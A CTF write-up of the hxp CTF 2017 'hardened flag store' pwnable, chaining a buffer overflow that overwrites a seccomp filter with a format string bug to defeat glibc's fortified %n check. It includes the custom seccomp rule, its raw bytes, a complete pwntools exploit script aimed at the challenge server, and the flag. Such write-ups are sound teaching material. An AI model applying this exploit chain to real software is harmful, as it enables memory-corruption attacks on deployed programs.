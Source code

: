 ```yaml
---
type: ctf
title: hxp CTF 2017 - hardened flag store
tags: [Pwnable, seccomp]
date: 2023-08-19
author: Eno Leriand
featuredImage: https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQ04b-owN2AasSH8M_U4e212g8KwXMueer_NdaeZL0Ez0A6_CbuXi3scBetaT0D43mfY9E&usqp=CAU
---
```


The program will read a secret string from "secret.txt" and store the string address on stack. Then it will use seccomp to create a whitelist of syscalls. We can analyze the filter by using [seccomp-tools](https://github.com/david942j/seccomp-tools):  

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000003  if (A != close) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x06 0x00 0x00 0x00000000  return KILL
```

So now the program are only allowed to use the following system calls: `exit`, `read`, `write`, `open` and `close`.  

After that the program will do the following ( pseudo code ) :  

```c
int cnt = 16;
int has_seccomp = 0;
while (cnt--)
{
    read(0, input, 96); // read user input
    if (!has_seccomp) init_seccomp(); // set up seccomp rule
    len = strlen(secret_string) + 1;
    for ( i = 0LL; ; i++ ) // check if input == secret_string
    {
        if ( len - 1 == i )
            goto LABEL_19;
        if ( secret_string[i] != input[i] )
            break;
    }
    puts("Wrong secret :/");
    if ( strlen(secret_string) == i )
LABEL_19:
        openflag(); // input == secret_string, open flag.txt and print it to stdout
    _fprintf_chk(stderr, 1LL, input); // <-- format string vuln
    has_seccomp = 1;
}
```

We can spot a format string vulnerability @ line 19. Although the secret string's address is stored on stack, however the output of `_fprintf_chk` is set to stderr, so we can't use `%s` to leak the secret string.  

But there's still one way to bypass the check. At line 16:  

```c
if ( strlen(secret_string) == i )
LABEL_19:
        openflag(); // input == secret_string, open flag.txt and print it to stdout
```

If we can overwrite the first character of the secret string to a null byte, and input a random string, both `strlen(secret_string)` and `i` will be `0`, thus bypass the check and will print out the flag.  

However this will require us to use the `%n` format string payload -- which in this case will be blocked by the seccomp filter:  

```
$ ./flag_store
%n
Wrong secret :/
[1]    5295 invalid system call  ./flag_store
```

Fortunately my teammate found that there's a buffer overflow vulnerability while reading the user input. We can input at most 96 chars to the buffer, while its size is only 32. Moreover, this make us able to overwrite the seccomp rule ! So then we overwrite the seccomp rule with a bunch of null bytes and send the `%n` character:

```
[*] Sending null bytes
[*] Sending fmt payload
[*] Switching to interactive mode
Wrong secret :/
Wrong secret :/
*** %n in writable segment detected ***
[*] Got EOF while reading in interactive
```

OK, so we successfully overwrite the seccomp rule, but still the `%n` payload was blocked by `_fprintf_chk`, which is a more secure version of `fprintf`. At this point I started to think that maybe we need to write some seccomp rules to bypass the format string check.

And so I started reading the [glibc source code](https://code.woboq.org/userspace/glibc/stdio-common/vfprintf.c.html#__readonly_area):

```c
................
    {                                                                      \
      extern int __readonly_area (const void *, size_t)                      \
        attribute_hidden;                                              \
      readonly_format                                                      \
        = __readonly_area (format, ((STR_LEN (format) + 1)              \
                                    * sizeof (CHAR_T)));              \
    }                                                                      \
  if (readonly_format < 0)                                              \
    __libc_fatal ("*** %n in writable segment detected ***\n");              \
}  
```

Hmmmm, looks like we'll have to make `readonly_format >= 0` so it won't call `__libc_fatal ("*** %n in writable segment detected ***\n");`. Let's trace into the [__readonly_area() function](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/readonly-area.c.html#__readonly_area):

```c
__readonly_area (const char *ptr, size_t size)
{
  const void *ptr_end = ptr + size;

  FILE *fp = fopen ("/proc/self/maps", "rce");
  if (fp == NULL)
    {
      /* It is the system administrator's choice to not have /proc
         available to this process (e.g., because it runs in a chroot
         environment.  Don't fail in this case.  */
      if (errno == ENOENT
          /* The kernel has a bug in that a process is denied access
             to the /proc filesystem if it is set[ug]id.  There has
             been no willingness to change this in the kernel so
             far.  */
          || errno == EACCES)
        return 1;
      return -1;
    }
    ...................
```

Ah ha ! We can see that `__readonly_area` will call `fopen()`, and see if its `errno` is equals to `EACCES` or `ENOENT`. **If so, it will return 1** !! Since we can write our own seccomp rule, we can totally make this happen !

So first we create our own seccomp rule:

```
# # check if arch is X86_64
A = arch
A == 0xc000003e ? next : ok
A = sys_number
A == open ? next : ok
A = args[2]
A == 0x1b6 ? magic : ok # check the 3rd arg of open()
magic:
return ERRNO(13) # ERRNO(EACCES)
ok:
return ALLOW
```

Notice that in order to make `open("flag.txt", 0x80000)` ( in the `openflag()` function ) works normally, we'll have to add the rule `A == 0x1b6 ? magic : ok`. This indicates that if the 3rd argument of `open()` equals to `0x1b6`, return `ERRNO(13)`, otherwise allow the system call. I wrote this rule because I found that when `__readonly_area()` calls `fopen ("/proc/self/maps", "rce");`, the 3rd argument of `open()` was exactly `0x1b6`.  

By using the [asm](https://github.com/david942j/seccomp-tools#asm) feature of the seccomp-tools, we can generate the raw bytes of our seccomp rule:

```
$ cat ./rule 
# # check if arch is X86_64
A = arch
A == 0xc000003e ? next : ok
A = sys_number
A == open ? next : ok
A = args[2]
A == 0x1b6 ? magic : ok
magic:
return ERRNO(13)
ok:
return ALLOW

$ seccomp-tools asm ./rule
" \x00\x00\x00\x04\x00\x00\x00\x15\x00\x00\x05>\x00\x00\xC0 \x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x03\x02\x00\x00\x00 \x00\x00\x00 \x00\x00\x00\x15\x00\x00\x01\xB6\x01\x00\x00\x06\x00\x00\x00\r\x00\x05\x00\x06\x00\x00\x00\x00\x00\xFF\x7F"

```

At last we apply our seccomp rule, exploit the format string vulnerability to bypass the check and get the flag:

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

# from brucepwn import *

HOST = "35.198.105.104"
PORT = 10000
ELF_PATH = "./flag_store"
LIBC_PATH = ""

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object
libc = elf.libc if not LIBC_PATH else ELF(LIBC_PATH)
if not libc: log.warning("Failed to load libc")

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = elf.process() # elf.process(argv=[argv1, argv2,...])

    payload = "\x00"*0x20
    payload += " \x00\x00\x00\x04\x00\x00\x00\x15\x00\x00\x05>\x00\x00\xC0 \x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x03\x02\x00\x00\x00 \x00\x00\x00 \x00\x00\x00\x15\x00\x00\x01\xB6\x01\x00\x00\x06\x00\x00\x00\r\x00\x05\x00\x06\x00\x00\x00\x00\x00\xFF\x7F"
    print "len:", len(payload)
    assert len(payload) <= 96
    r.sendline(payload)
    time.sleep(1)
    r.sendline("%128c%128c%hhn")
    time.sleep(1)
    r.sendline("1")
    r.interactive()


```

flag: `hxp{d0n7_w0rry_glibc_1_571ll_l0v3_y0u}`


First blood on this one ! WOOHOO ! 😎
